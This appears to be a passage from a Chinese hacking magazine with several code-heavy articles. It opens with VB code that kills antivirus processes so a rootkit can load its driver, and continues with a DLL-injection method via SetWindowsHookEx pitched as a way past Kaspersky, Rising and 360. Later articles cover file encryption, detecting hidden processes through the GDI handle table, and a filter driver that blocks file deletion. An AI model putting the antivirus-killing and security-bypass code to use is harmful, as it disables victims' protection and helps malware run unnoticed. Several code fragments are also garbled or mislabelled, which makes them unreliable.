Private Declare Function VirtualProtectEx Lib "kernel32.dll" (...) As Long
Private Declare Function CloseHandle Lib "kernel32.dll" (...) As Long
Private Declare Sub GetSystemInfo Lib "kernel32.dll" (...)

Private Const PROCESS_VM_READ As Long = (&H10)
Private Const PROCESS_VM_OPERATION As Long = (&H8)
Private Const PROCESS_QUERY_INFORMATION As Long = (&H400)
Private Const PAGE_NOACCESS As Long = &H1

' 获得 SE_DEBUG 权限
Private Sub GetSeDebug()
    RtlAdjustPrivilege 20, 1, 0, 0
End Sub

' 利用 VirtualProtect 杀进程
Private Sub VmpKillProcess(ByVal PID As Long)
    Dim MaxAddr As Long, MinAddr As Long, CurAddr As Long
    Dim OldProtect As Long, hProc As Long
    Dim SysInfo As SYSTEM_INFO
    Dim MemBasicInfo As MEMORY_BASIC_INFORMATION
    Call GetSystemInfo(SysInfo)
    MinAddr = SysInfo.lpMinimumApplicationAddress
    MaxAddr = SysInfo.lpMaximumApplicationAddress
    PageSize = SysInfo.dwPageSize

    hProc = OpenProcess(PROCESS_VM_OPERATION Or PROCESS_QUERY_INFORMATION, False, PID)
    ' 从最小地址循环到最大地址
    For CurAddr = MinAddr To MaxAddr Step PageSize
        ' 查询该进程内存地址的有效性
        If (VirtualQueryEx(hProc, ByVal CurAddr, MemBasicInfo, 28)) Then
            ' 使有效的地址标记为不可执行
            Call VirtualProtectEx(hProc, _
                ByVal MemBasicInfo.BaseAddress, _
                MemBasicInfo.RegionSize, _
                PAGE_NOACCESS, _
                OldProtect)
        End If
    Next
    Call CloseHandle(hProc)
End Sub

Public Sub main()
    Call GetSeDebug
    Call VmpKillProcess(CLng(InputBox("PID=", "Kill KV2010 In Ring 3")))
End Sub


```

把这份代码编译，然后输入 KV2010 监控进程的 PID，KV2010 监控进程便马上消失了。这份代码对冰刃、狙剑、天骄等比较早的 ARK 工具，以及对瑞星杀毒软件 2010 和金山毒霸 2011 皆有效。

令人费解的是，瑞星杀毒软件 2010 和金山毒霸 2011 的驱动都已经 SSDT Hook 了 ZwProtectVirtualMemory，真不知道瑞星杀毒软件 2010 和金山毒霸 2011 的驱动在 Fake_ZwProtectVirtualMemory 里是怎么处理的。其实只要用 ObReferenceObjectByHandle 或 ZwQueryInformationProcess 查询一下句柄所对应的 EPROCESS，如果是受保护的 EPROCESS，返回 STATUS_UNSUCCESSFUL 就起到保护的作用了，直接 Hook ObReferenceObjectByHandle 当然也可以。

这份代码在 Windows XP 下测试通过。由于在代码中没有直接使用指针（利用 ByRef 间接使用指针），所以此代码稍加修改就能移植到不支持指针的 VB.NET 中。另外把这份代码转成 C 语言版本，并把用到的 WIN32 API 改成 NATIVE API，就能把代码移植到驱动程序中。

结束了杀毒软件的进程之后，ROOTKIT 就能方便地加载驱动了（加载完驱动后再启动杀毒软件）。这种结束进程的方法之所以能成功，很大原因是还能用两年多以前的方法获得进程句柄。杀毒软件的工程师们，请保管好自己的进程句柄吧！

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VC  
关键词：主动防御、DLL 注入、Hook

## 另类过主动防御系统

文/图 腾裘
看过这么多期的《黑客防线》了，我想大家都知道很多种过主动防御的方法了吧，像 ShellCode 等，不过这些实现起来都有点复杂，现在我就向大家介绍一种简单的可以过主动的方法，经本人测试的卡巴斯基、瑞星、360 杀毒的主动全过了。

## 原理

同样是 DLL 注入，当然这种注入方式可不是什么 CreateRemoteThread + GetProcAddress 的“高危”方法，具体代码会在后面详细给出。

## 实现

看到这里，估计大家想问了，到底是什么样的方法才能绕过主动注入 DLL 呢？我只想说一个函数：SetWindowsHookEx，是在 DLL 中执行的 SetWindowsHookEx 和其回调函数。如果你熟悉 Windows 消息机制和钩子机制，看到这里你可能已经明白了。

首先，我们来看看什么是 Windows 的消息机制和钩子机制。Windows 的消息系统是由 3 个部分组成的。

- 消息队列。Windows 能够为所有的应用程序维护一个消息队列。应用程序必须从消息队列中获取消息，然后分派给某个窗口。
- 消息循环。通过这个循环机制，应用程序从消息队列中检索消息，再把它分派给适当的窗口，然后继续从消息队列中检索下一条消息，再分派给适当的窗口，依次进行。
- 窗口过程。每个窗口都有一个窗口过程来接收传递给窗口的消息，它的任务就是获取消息然后响应它。窗口过程是一个回调函数，处理了一个消息后，它通常要返回一个值给 Windows。

注意，回调函数是程序中的一种函数，它是由 Windows 或外部模块调用的。钩子（Hook）是 Windows 消息处理机制的一个平台，用程序可以在上面设置子程序以监视指定窗口的某种消息，而且所监视的窗口可以是其他进程所创建的。当消息到达后，在目标窗口处理函数之前处理它。钩子机制允许应用程序截获处理 Windows 消息或特定事件。钩子实际上是一个处理消息的程序段，通过系统调用，把它注入系统。每当特定的消息发出，在没有到达目的窗口前，钩子程序就先捕获该消息，即钩子函数先得到控制权。这时钩子函数即可以加工处理（改变）该消息，也可以不作处理而继续传递该消息，还可以强制结束消息的传递。

现在，我想大家都应该理解得差不多了。作为一个设置钩子的函数，SetWindowsHookEx 和其回调函数在 DLL 中起的作用是很大的。让我们来想一下，设置回调函数后，Windows 的消息就被截获，并传递到回调函数中。这时，由于回调函数在 DLL 中，而其他的 GUI 程序想要知道回调函数中有什么，消息又将何去何从——没错，它们要去主动加载这个 DLL！这是多么巧妙的一个想法啊！让我们一起看看 DLL 中的代码：

```cpp
// DLL 中全局变量定义
HMODULE g_hModule = NULL;
HHOOK hHook = 0;
HANDLE hProcess = NULL; // 全局进程句柄，在 DllMain 中被使用

LRESULT CALLBACK HookProc(int nCode, WPARAM wParam, LPARAM lParam)
{
    // 回调函数，这里并不需要处理什么
    return CallNextHookEx(hHook, nCode, wParam, lParam);
}

// DLL 导出函数，方便在可执行文件中调用
extern "C" __declspec(dllexport) BOOL UnloadHook()
{
    // 卸载钩子，在完成你需要的动作后自然要卸载了
    return UnhookWindowsHookEx(hHook);
}

extern "C" __declspec(dllexport) BOOL StartHook()
{
    // 设置钩子
    hHook = SetWindowsHookEx(WH_GETMESSAGE, (HOOKPROC)HookProc, g_hModule, 0);
    if (hHook)
        return TRUE;
    return FALSE;
}
```

好了，到现在我们的准备工作已经完成了，下面我们就该判断一下被注入的可执行文件的进程名了。

```cpp
// 先定义两个可能用到的函数的原型
typedef HANDLE (WINAPI *FN_CREATE_REMOTE_THREAD)(
    HANDLE hProcess,
    LPSECURITY_ATTRIBUTES lpThreadAttributes,
    SIZE_T dwStackSize,
    LPTHREAD_START_ROUTINE lpStartAddress,
    LPVOID lpParameter,
    DWORD dwCreationFlags,
    LPDWORD lpThreadId
);

typedef DWORD (WINAPI *FN_GETMODULEBASE_NAME)(
    HANDLE hProcess,
    HMODULE hModule,
    LPSTR lpBaseName,
    DWORD nSize
);

// DLL 入口
BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    {
        // DLL 已注入到目标进程
        bool IsStartHook = true;

        g_hModule = hModule;
        HINSTANCE hpsInst = LoadLibrary(_T("psapi.dll"));

        FN_GETMODULEBASENAME fn_GetModuleBaseName =
            (FN_GETMODULEBASENAME)GetProcAddress(hpsInst, "GetModuleBaseNameW");

        if (fn_GetModuleBaseName)
        {
            wchar_t szProcessName[MAX_FNAME];
            hProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, GetCurrentProcessId());
            fn_GetModuleBaseName(hProcess, NULL, szProcessName, MAX_FNAME);

            // 判断是否是我们需要的目标进程
            if (lstrcmpi(szProcessName, _T("explorer.exe")) == 0)
            {
                // 这里使用 Unicode 函数
                // 在此可执行目标代码
            }
        }

        if (!IsStartHook)
        {
            // 非目标程序时卸载本模块
            HMODULE hKerModule = GetModuleHandle(_T("kernel32.dll"));
            FN_CREATE_REMOTE_THREAD fn_CreateRemoteThread =
                (FN_CREATE_REMOTE_THREAD)GetProcAddress(hKerModule, "CreateRemoteThread");
            if (fn_CreateRemoteThread != 0)
            {
                fn_CreateRemoteThread(GetCurrentProcess(), NULL, 0,
                    (LPTHREAD_START_ROUTINE)GetProcAddress(hKerModule, "FreeLibrary"),
                    (void*)hModule, 0, NULL);
            }
        }
    }
    break;

    case DLL_PROCESS_DETACH:
        // DLL 已从目标进程卸载，可根据需要添加相关代码
        break;

    default:
        break;
    }
    return TRUE;
}
```

可执行文件的代码；

关于 Unicode 的定义，放在预编译头里就可以了。

```cpp
#define UNICODE 1
#define _UNICODE 1
#include <windows.h>
#include <tchar.h>
#include <stdio.h>
#include <stdlib.h>
...
typedef BOOL (WINAPI *FN_START_OR_UNLOAD_HOOK)();

int wmain(int argc, wchar_t* argv[])
{
    FN_START_OR_UNLOAD_HOOK fn_StartHook = NULL;
    FN_START_OR_UNLOAD_HOOK fn_UnloadHook = NULL;
    HMODULE hHookMod = LoadLibrary(_T("hooker.dll"));
    ...
    fn_StartHook = (FN_START_OR_UNLOAD_HOOK)GetProcAddress(hHookMod, "StartHook");
    fn_UnloadHook = (FN_START_OR_UNLOAD_HOOK)GetProcAddress(hHookMod, "UnloadHook");
    ...
}
```

```cpp
goto tagfinish;
...
wprintf(_T("UnloadHook()=%d\n"), fn_UnloadHook());
tagfinish:
FreeLibrary(hHookMod);
wprintf(_T("Press enter to exit..."), hHookMod);
_tscanf(_T("%*c"));
return 0;
}


```

程序编译好之后，执行效果如图 1 所示，弹出 MessageBox 之后，将 hooker.dll 卸载，这样就没有痕迹了。同时我们需要注意，因为我们利用的是消息钩子，所以这种方法只能注入到 GUI 程序中，不过，这已经足够了。还有最重要的一点是它支持 Windows 7。
图 1

## 总结

回顾一下，我们利用消息钩子将 DLL 注入到目标进程中，然后就可以以信任文件的名义执行代码了。我相信现在我们已经可以做很多事了。只要进到信任文件的执行空间里，就没有什么做不到的了，我们还可以拓展一下，可以弄成 Ring3 GUI 的全局 Hook 等，这些就靠读者去拓展了！（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VB.net

关键词：VB.net、文件加解密

# 文件加解密之又一思路

文/图  暗夜舞者

最近没有什么事，再把加密解密和逆向工程研究了一下，写了个加密解密的小软件，虽然代码不多，但是提供了一个思路，下面说明一下。程序界面是用 VC#.NET2008 做的，而核心模块是用 VB.NET2008 编写的 DLL，下面我们看一下程序的主界面，如图 1 所示。
图 1

由于我使用的是日本版的操作系统，所以软件的界面显示是日文，大家可以根据个人需要去进行修改。我们看一下主要的代码：在加密界面中，用到的主要代码就是加密方法，方法中的 Check 部分我们略过，主要看下面的部分。

```vb
DataSet DsImg = new DataSet();
DataTable Dt = new DataTable("Images");
Dt.Columns.Add(new DataColumn("sysid", System.Type.GetType("System.String")));
Dt.Columns.Add(new DataColumn("filename", System.Type.GetType("System.String")));
Dt.Columns.Add(new DataColumn("image", System.Type.GetType("System.Byte[]")));
Dt.Columns.Add(new DataColumn("filetag", System.Type.GetType("System.String")));
DsImg.Tables.Add(Dt);
FileStream Fs = new FileStream(txtFileName.Text, System.IO.FileMode.Open);
BinaryReader bn = new BinaryReader(Fs);
mg = new ModGen.ModGen();
DataRow Dr = null;
Dr = DsImg.Tables["images"].NewRow();
Dr["sysid"] = DateTime.Today.ToString();
Dr["filename"] = txtFileName.Text;
Dr["image"] = bn.ReadBytes((int)(bn.BaseStream.Length));
Dr["filetag"] = mg.StrEncrypt(txtPassword.Text, string.Empty);
DsImg.Tables["images"].Rows.Add(Dr);
DsImg.WriteXml(txtFileName.Text + ".p2p");
```

我们最终的加密文件就是“文件名.p2p”，加密文件除了包含加密后的原文件外，还将文件名和当前时间存入其中，以备解密时使用，变量 mg 的类型为 ModGen，也就是我们用 VB 写的核心模块类，程序中添加了引用后，在这里可以直接调用。

这里的整体思路是：将加密的原文件和一些有关的加密信息先导入到 DataSet 中，因为 DataSet 可以将其中的数据导出为 XML 这种有序的文件，以后解密的时候可以按照指定的格式再读入这些有用的信息而不至于导致混乱，XML 格式在数据保存和传递方面确实拥有显著的优势。

在解密界面中用到的主要方法当然就是解密方法了，关键代码如下所示。

```vb
DataSet DsImg = new DataSet();
DataTable Dt = new DataTable("Images");
Dt.Columns.Add(new DataColumn("sysid", System.Type.GetType("System.String")));
Dt.Columns.Add(new DataColumn("filename", System.Type.GetType("System.String")));
Dt.Columns.Add(new DataColumn("image", System.Type.GetType("System.Byte[]")));
Dt.Columns.Add(new DataColumn("filetag", System.Type.GetType("System.String")));
```

```vb
DsImg.Tables.Add(Dt);
DsImg.ReadXml(txtFileName.Text);
mg = new ModGen.ModGen();
if (!txtPassword.Text.Equals(mg.StrDecrypt(DsImg.Tables[0].Rows[0]["filetag"].ToString(), string.Empty)))
{
    txtFileName.SelectionStart = 0;
    txtFileName.SelectionLength = txtPassword.Text.Length;
    txtPassword.Focus();
    MessageBox.Show("入力したのパスワードが無効です。");
    return;
}
string FileName = string.Empty;
FileName = txtFileName.Text.Substring(0, txtFileName.Text.Length - 4);
Byte[] Content = null;
Content = (Byte[])DsImg.Tables[0].Rows[0][2];
FileStream Fs = new FileStream(FileName, FileMode.Create);
Fs.Write(Content, 0, Content.Length);


```

在这里，我们将读取加密时已经写入文件的信息，通过核心模块的解密函数将原文解析出来并且生成新的文件。由于采用了 XML 格式存取，附加的信息不会影响到原文的内容。下面看看运行情况，如图 2 所示。想要加密的文件是“C:\Documents and Settings\User\桌面\plsql.doc”，密码为“123”。
图 2

运行之后会产生一个加密后的文件，名叫“plsql.doc.p2p”，然后我们再进行解密试验，如图 3 所示。
图 3

运行之后会产生一个名为“plsql.doc”的原文件，解密成功。

对于文件的加密和解密，数据的安全性似乎是一个永远的话题。网络越发达，安全的重要性越突出。本文在加解密方面给了大家一个新的思路，VB 的加解密函数也随文奉上，希望对大家有所帮助。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：Delphi  
关键词：Ring3、GDI、检测进程

## Ring3 下通过查询 GDI 句柄表来检测进程
文/图 liuke_blue

冰刃、XueTr、Rootkit Unhooker 等 AntiRootkit 工具中有一个很好的模块，可以进行进程检测。虽然一些病毒通过内核函数 Hook、DKOM（直接内核对象操作技术）等方法来隐藏进程，从而逃避任务管理的检测，但是无法逃脱这些 AntiRootkit 工具的“法眼”。目前 AntiRootkit 工具检测进程常见的方法有：

- Hook KswapContext 函数来检测进程
- 查询 EPROCESS 结构来检测进程
- 查询 PSPCidTable 这个存放 Windows 系统中所有进程线程的句柄表来检测进程等

但是这些方法都需要在内核层下，有没有在应用层下也像上面所提到的 AntiRootkit 工具一样，可以检测到所有的进程，包括被隐藏的进程。答案是有的，下面我给大家介绍一种在 Ring3 下通过查询 GDI 对象句柄表来检测进程的方法。

Windows 的图形系统分为三个部分：客户端的 DLL GDI32.DLL、内核引擎 Win32k.sys、各种图形驱动程序。Windows 把 GDI Objects 都储存在一个系统的句柄表里，GDI 句柄表储存在内核模式地址空间中，使图形驱动可以很容易地访问它；在用户模式地址空间也创建了 GDI 句柄表的快照，可以在用户模式下对 GDI 句柄表进行只读访问。下面是 GDI 句柄表中表项的数据结构。

```c
typedef struct _GDITableCell
{
    void*          pKernel;   // 内核模式对象的指针
    unsigned short nProcess;
    unsigned short nCount;
    unsigned short nUpper;
    unsigned short nType;
    void*          pUser;     // 用户模式对象的指针
} GDITableCell, *PGDITableCell;
```

其中 nProcess 指向进程 ID。由于 Rootkit 隐藏进程，没有去修改内核中所存放的 GDI 句柄表，因此通过查找这张 GDI 句柄表表项中的 nProcess 可以检测到所有的进程，包括隐藏的进程。通过 GdiQueryTable 这个未文档化的函数可以找到用户模式地址空间存放的 GDI 句柄表的快照。程序主要代码如下：

```pascal
// 通过查询 GDI 句柄表检测所有进程
function Tform1.CheckForHiddenProcess(): BOOL;
var
  hGDI: HMODULE;
  ProcAddress: TFarProc;
  dwVersion: DWORD;
  WindowsVer: INTEGER;
```

```pascal
pGDITable: PGDITableCell;
cell: TGDITableCell;
i, j, k, arrayLen: integer;
fFound: BOOL;
p1: TProcessInfo;
szProcName: string;
begin
  hGDI := LoadLibrary('GDI32.dll');
  ProcAddress := GetProcAddress(hGDI, 'GdiQueryTable');
  if (ProcAddress = nil) then
  begin
    MessageBox(0, 'Error finding address of GdiQueryTable!', '提示', MB_OK+MB_ICONWARNING);
    result := FALSE;
    exit;
  end;

  GetMem(pGDITable, (MAXGDIHANDLE * sizeof(TGDITableCell)));
  pGDITable := PGDITableCell(TProc(ProcAddress)());

  if (pGDITable = nil) THEN
  begin
    MessageBox(0, 'Error accessing GDI Table!', '提示', MB_OK+MB_ICONWARNING);
    result := FALSE;
    exit;
  end;

  dwVersion := GetVersion;
  WindowsVer := BYTE(LOWORD(dwVersion));
  arrayLen := 0;
  inc(arrayLen);
  SetLength(procInfo, arrayLen);

  for i := 0 to MAXGDIHANDLE-1 do
  begin
    cell := (PGDITableCell(DWORD(pGDITable)+i*sizeof(TGDITableCell)))^;
    if (DWORD(cell.pkernel) < $80000000) then continue;
    j := 0;
    fFound := FALSE;
    for j := 0 to length(procInfo)-1 do
    begin
      if (WindowsVer > 5) then
      begin
        if (procInfo[j].ProcessId = cell.nProcess) then fFound := TRUE;
      end
      else
      begin
        if (procInfo[j].ProcessId = cell.nCount) then fFound := TRUE;
      end;
    end;
  end;
end;
```

```pascal
if (not fFound) then
begin
    if (WindowsVer >= 5) then
    begin
        p1.ProcessId := cell.nProcess;
    end else
    begin
        p1.ProcessId := cell.nCount;
    end;
    // 增加数组中的记录
    inc(arrayLen);
    SetLength(procInfo, arrayLen);
    procInfo[arrayLen-1] := p1;
end;
...
listview1.Clear;
ListView1.Items.BeginUpdate;
for k:=0 to length(procInfo)-1 do
begin
    with listview1.Items.add do
    begin
        GetProcessName(procInfo[k].ProcessId, szProcName, MAX_PATH);
        caption := TRIM(ExtractFilename(szProcName));
        subitems.Add(trim(inttostr(procInfo[k].ProcessId)));
        subitems.Add(szProcName);
        if ((IsHideProcess(procInfo[k].ProcessId) and (procInfo[k].ProcessId<>18))) then
            subitems.Add('隐藏')
        else
            subitems.Add('正常');
    end;
end;
ListView1.Items.EndUpdate;
form1.Caption := 'RING3下查询 GDI句柄表来检测进程(进程总数：'+inttostr(form1.ListView1.Items.Count)+')';
end;
```

有一些杀毒软件和 AntiRootkit 工具 Hook NtOpenProcess 函数，因此通过 GetModuleFileNameExA 函数来获取这些软件的进程完整路径是行不通的。为了绕过这些软件的 Hook，因此自己编写一个 My_OpenProcess 函数来代替 OpenProcess 函数，最终获得指定进程的句柄，代码如下：

```cpp
// 自己写的 MY_OpenProcess 来获取进程句柄
function My_OpenProcess(dwDesiredAccess:DWORD; bInherit:LongBool; ProcessId:Cardinal; bOpenIt:LongBool):THANDLE;
var
    uReturn:ULONG;
    NumOfHandle:ULONG;
    pBuffer:PCHAR;
    pOneEprocess:PVOID;
    cid:TCLIENT_ID;
    status:NTSTATUS;
    oa:TOBJECT_ATTRIBUTES;
    pbi:TPROCESS_BASIC_INFORMATION;
    h_info: PSYSTEM_HANDLE_TABLE_ENTRY_INFO;
    hProcessToDup, hProcessCur, hProcessToRet, tHandle, cbBuffer:ULONG;
    hModuleNtdll:HMODULE;
    pFnZwQueryInformationProcess, pFnNtOpenProcess,
    pFnZwQuerySystemInformation, pFnZwDuplicateObject, pFnZwClose:FARPROC;
    i:integer;
begin
    cbBuffer := $4000;
    hModuleNtdll := LoadLibrary('ntdll.dll');
    pFnZwQueryInformationProcess := GetProcAddress(hModuleNtdll,'ZwQueryInformationProcess');
    pFnNtOpenProcess := GetProcAddress(hModuleNtdll,'NtOpenProcess');
    pFnZwQuerySystemInformation := GetProcAddress(hModuleNtdll,'ZwQuerySystemInformation');
    pFnZwDuplicateObject := GetProcAddress(hModuleNtdll,'ZwDuplicateObject');
    pFnZwClose := GetProcAddress(hModuleNtdll,'ZwClose');
    ...
end;
```

```cpp
pFnZwDuplicateObject := GetProcAddress(hModuleNtdll,'ZwDuplicateObject');
pFnZwClose := GetProcAddress(hModuleNtdll,'ZwClose');
oa.Length := 24;
oa.RootDirectory := 0;
oa.ObjectName := nil;
oa.Attributes := 0;
oa.SecurityDescriptor := nil;
oa.SecurityQualityOfService := nil;
if bInherit = TRUE then oa.Attributes := DWORD(oa.Attributes) or OBJ_INHERIT;
if bOpenIt = TRUE then
begin
    // 看能否直接得到句柄
    cid.UniqueProcess := THANDLE(ProcessId);
    cid.UniqueThread := 0;
    status := TNTOPENPROCESS(pFnNtOpenProcess)(@hProcessToRet,dwDesiredAccess,@oa,@cid);
    if (NTSTATUS(status) >= 0) then
    begin
        result := hProcessToRet;
        Exit;
    end;
end;
repeat
    pBuffer := PCHAR(GlobalAllocPtr(GMEM_FIXED+GMEM_ZEROINIT, cbBuffer));
    if pBuffer=nil then
    begin
        result := 0;
        Exit;
    end;
    status := TZWQUERYSYSTEMINFORMATION(pFnZwQuerySystemInformation)(SystemHandleInformation,pBuffer,cbBuffer,@uReturn);
    if (NTSTATUS(status)=STATUS_INFO_LENGTH_MISMATCH) then
    begin
        GlobalFreePtr(pBuffer);
        cbBuffer := cbBuffer * 2;
    end;
until (status<>STATUS_INFO_LENGTH_MISMATCH);
NumOfHandle := PULONG(pBuffer)^;
h_info := PSYSTEM_HANDLE_TABLE_ENTRY_INFO(ULONG(pBuffer)+4);
i := 0;
while (i < NumOfHandle) do
begin
    if (bOpenIt) then
    begin
        if (h_info.ObjectTypeIndex = 5) then
        begin
            cid.UniqueProcess := h_info.UniqueProcessId;
            status := TNTOPENPROCESS(pFnNtOpenProcess)(@hProcessToDup, PROCESS_DUP_HANDLE, @oa, @cid);
            if (NTSTATUS(status) >= 0) then
            begin
                status := TZWDUPLICATEOBJECT(pFnZwDuplicateObject)(hProcessToDup, THANDLE(h_info.HandleValue), THANDLE(-1), addr(hProcessCur), PROCESS_ALL_ACCESS, 0, DUPLICATE_SAME_ATTRIBUTES);
                if (NTSTATUS(status) >= 0) then
                begin
                    // 查看复制的句柄是否为我们想要的PROCESS
                    status := TZWQUERYINFORMATIONPROCESS(pFnZwQueryInformationProcess)(hProcessCur, ProcessBasicInformation, @pbi, sizeof(pbi), 0);
                    if (NTSTATUS(status) >= 0) then
                    begin
                        if (ProcessId = pbi.UniqueProcessId) then
                        begin
                            status := TZWDUPLICATEOBJECT(pFnZwDuplicateObject)(hProcessToDup, THANDLE(h_info.HandleValue), ...);
                        end;
                    end;
                end;
            end;
        end;
    end;
    inc(i);
end;
```

```c
THANDLE(-1), addr(hProcessToRet), dwDesiredAccess, OBJ_INHERIT, DUPLICATE_SAME_ATTRIBUTES);
ZwClose(pFnZwClose)(hProcessCur);
ZwClose(pFnZwClose)(hProcessToDup);
result = *hProcessToRet;
exit;
...
info); h_info = PSYSTEM_HANDLE_TABLE_ENTRY_INFO(
    (PDWORD(h_info) + sizeof(TSYSTEM_HANDLE_TABLE_ENTRY_INFO));
...
result = 0;


```
图 1

为了结束进程，采取在内核层使用 `PspTerminateProcess` 函数结束进程。由于 `PspTerminateProcess` 函数未导出，因此通过查找该函数的特征硬编码（Windows XP SP3 系统）来获取该函数的首地址，详细了解请自行下载黑防官方网站上所提供的内核程序源代码。

下面我使用两种常见的内核隐藏进程的方法：Hook `ZwQuerySystemInformation` 函数、DKOM 隐藏进程。然后再使用编写好的工具在 Ring3 下进行进程检测，通过查询 GDI 句柄表所得的进程列表和使用常见 `PSAPI.LIB` 导出的查询进程函数所得的进程列表进行一一对比，在 GDI 句柄表中能查询到的进程，而通过 `PSAPI.LIB` 导出的查询进程函数查询不到的进程，我们就认为这是隐藏进程，用红色标示出来，检测示意图如图 1 所示。

其检测的结果和使用冰刃检测进程的结果是一样的，隐藏的进程“无所遁形”地被检测到。有兴趣的读者还可以使用该工具对别的进程隐藏方式进行检测。

- 1. 由于在早期 NT 系统实现 GDI 与 USER 对象时，并未考虑会话的情况，因此 `smss.exe` 这个进程（会话管理子系统）GDI 句柄表中是不存在的，使用该软件无法检测到 `smss.exe`。
- 2. `System` 这个进程 PID 一直为 4，但是在 GDI 句柄表获取的值为 18。
- 3. 我所编写 `My_OpenProcess` 函数虽然可绕过大部分自身 Hook `XXOpenProcess` 的软件，但对于 Rootkit Unhooker 这种 inline `NtDuplicateObject` 的 AntiRootkit 工具无效，因此无法获取进程全路径。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VC

关键词：文件系统过滤、文件保护

# 文件系统过滤驱动实现文件保护
文/图  键盘上的眼泪

2010 年第 6 期的《黑客防线》杂志上胡文富同学有一篇《底层函数的文件防删除》，个人认为如果 Hook 的函数越底层，那么在 Fake 函数里就越难处理，稍微没处理好就有可能导致蓝屏。为了安全地保护文件，建议使用文件系统过滤驱动。经过本人最近的学习与研究，发现了一种可以让冰刃、狙剑、XueTr、360 文件粉碎机都无法删除的方法。现借助《黑客防线》这个平台，与大家一起分享。

在 Windows 系统下一般常用的文件系统有两种，NTFS 和 FAT32。文件系统的作用就是让用户方便地通过文件路径去找到需要的文件，比如 `C:\windows\system32\cmd.exe` 这个文件。我们只需要知道它所在的路径就能找到这个文件，而不需要知道它具体在硬盘里的什么位置。文件系统会生成两种设备，一种是文件系统驱动本身的控制设备，另一种是文件系统的卷设备。在计算机上我们所看到的 C 盘、D 盘、E 盘等都对应了一个卷设备，比如 C 盘对应了 `\Device\Harddisk Volume1`，D 盘对应了 `\Device\Harddisk Volume2`，而 C:、D: 这些符号是卷设备的符号链接，打开 WinObj，如图 1 所示。
图 1
图 2

## 生成控制设备与绑定设备

文件系统过滤驱动一般生成在“`\FileSystem\Filters\`”下，但是这个路径在早期的 Windows 版本下没有，所以需要判断一下这个目录是否能找到，如果找不到可以生成在 `\FileSystem\` 下，代码如下：

```c
// 驱动程序加载时调用 DriverEntry 例程
NTSTATUS DriverEntry(PDRIVER_OBJECT pDriverObj, PUNICODE_STRING pRegistryString)
{
    UNICODE_STRING uNameString;
    PDEVICE_OBJECT device;
    NTSTATUS status;

    RtlInitUnicodeString(&uNameString, L"\\FileSystem\\Filters\\MyFilter");

    // 创建设备
    status = IoCreateDevice(pDriverObj,
                            0,
                            &uNameString,
                            FILE_DEVICE_DISK_FILE_SYSTEM,
                            FILE_DEVICE_SECURE_OPEN,
                            FALSE,
                            &device);

    // 如果没有找到 Filters 路径而创建设备失败
    if (status == STATUS_OBJECT_PATH_NOT_FOUND)
    {
        DbgPrint("创建设备失败，尝试在 FileSystem 下创建\n");
        RtlInitUnicodeString(&uNameString, L"\\FileSystem\\MyFilter");

        status = IoCreateDevice(pDriverObj,
                                0,
                                &uNameString,
                                FILE_DEVICE_DISK_FILE_SYSTEM,
                                FILE_DEVICE_SECURE_OPEN,
                                FALSE,
                                &device);
        if (status != STATUS_SUCCESS)
        {
            DbgPrint("创建设备失败，该设备可能已经存在\n");
            return status;
        }
        DbgPrint("创建 \\FileSystem\\MyFilter 设备成功\n");
    }
    else
    {
        DbgPrint("创建 \\FileSystem\\Filters\\MyFilter 设备成功\n");
    }
    return STATUS_SUCCESS;
}
```

运行之后结果如图 2 所示。

## 文件系统分发函数

设备创建好之后，接下来就要分发函数了，代码如下：

```c
for (i = 0; i <= IRP_MJ_MAXIMUM_FUNCTION; i++)
{
    pDriverObj->MajorFunction[i] = MyFilterDispatch;
}
```

MyFilterDispatch 函数只需要做最简单的处理，直接下发到下层驱动的 IRP，其他的不必操作，该函数代码如下：

```c
NTSTATUS MyFilterDispatch(
    IN PDEVICE_OBJECT DeviceObject,
    IN PIRP Irp
)
{
    PATTACH_EXTENSION AttachExtension;
    AttachExtension = (PATTACH_EXTENSION)DeviceObject->DeviceExtension;
    IoSkipCurrentIrpStackLocation(Irp);
    return IoCallDriver(AttachExtension->VolumeDevice, Irp);
}
```

接下来，就需要给快速 IO（Fast I/O）分发函数。快速 IO 的分发函数比较多，一个一个写比较麻烦，本文参考 FileMon 里的一个简单方法，用 `FAST_IO_DISPATCH` 结构的方式。然后在 DriverEntry 函数里加一条 `pDriverObj->FastIoDispatch = &FastIOHook;` 语句就行了。`FAST_IO_DISPATCH` 结构如下：

```c
FAST_IO_DISPATCH FastIOHook = {
    sizeof(FAST_IO_DISPATCH),
    FilemonFastIoCheckIfPossible,
    FilemonFastIoRead,
    FilemonFastIoWrite,
    FilemonFastIoQueryBasicInfo,
    FilemonFastIoQueryStandardInfo,
    FilemonFastIoLock,
    FilemonFastIoUnlockSingle,
    FilemonFastIoUnlockAll,
    FilemonFastIoUnlockAllByKey,
    FilemonFastIoDeviceControl,
    FilemonFastIoAcquireFile,
    FilemonFastIoReleaseFile,
    FilemonFastIoDetachDevice,
    // ...
    // new for NT4.0
    FilemonFastIoQueryNetworkOpenInfo,
    FilemonFastIoAcquireForModWrite,
    FilemonFastIoMdlRead,
    FilemonFastIoMdlReadComplete,
    FilemonFastIoPrepareMdlWrite,
    FilemonFastIoMdlWriteComplete,
    FilemonFastIoReadCompressed,
    FilemonFastIoWriteCompressed,
    FilemonFastIoMdlReadCompleteCompressed,
    FilemonFastIoMdlWriteCompleteCompressed,
    FilemonFastIoQueryOpen,
    FilemonFastIoReleaseForModWrite,
    FilemonFastIoAcquireForCcFlush,
    FilemonFastIoReleaseForCcFlush
};
```

分发好函数之后，就需要绑定卷设备，由于绑定卷设备的篇幅过长，所以在这里我们不做讲解，读者可以下载黑防官方网站上提供的参考代码。

## 保护文件

删除文件操作，首先是发送一个请求，打开文件，然后发出一个主功能信息为 `IRP_MJ_SET_INFORMATION` 的设置请求，表示这个文件将被删除，第三步是关闭文件，关闭时文件就会被系统删除。那么我们需要将 `IRP_MJ_SET_INFORMATION` 指向一个函数，在这个函数里进行处理。

```c
pDriverObj->MajorFunction[IRP_MJ_SET_INFORMATION] = NoDeleteFile;
```

